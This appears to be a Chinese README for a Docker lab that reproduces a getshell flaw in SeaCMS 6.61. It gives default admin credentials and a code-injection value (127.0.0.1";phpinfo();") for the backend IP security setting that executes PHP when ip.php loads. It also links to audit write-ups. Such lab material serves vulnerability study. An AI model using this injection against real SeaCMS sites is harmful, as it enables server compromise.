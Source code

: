 ## 环境构建
```
docker-compose build 
docker-compose up -d
```

## 漏洞介绍
这个漏洞很多，以GETSHELL为例
在后台 系统->后台IP安全设置

后台地址
http://127.0.0.1/manager/login.php
账户admin:admin

添加
```shell

  127.0.0.1";phpinfo();"
```

然后访问http://127.0.0.1/data/admin/ip.php

![](README/559837F8-C4C1-4E06-BB87-EA0FFA617CF9.png)




## 漏洞连接
[php_code_audit_project/seacms 6.61 code_audit.md at master · SukaraLin/php_code_audit_project · GitHub](https://github.com/SukaraLin/php_code_audit_project/blob/master/seacms/seacms%206.61%20code_audit.md)
https://altman.vip/2018/09/27/seacmsv6.61-getshell/
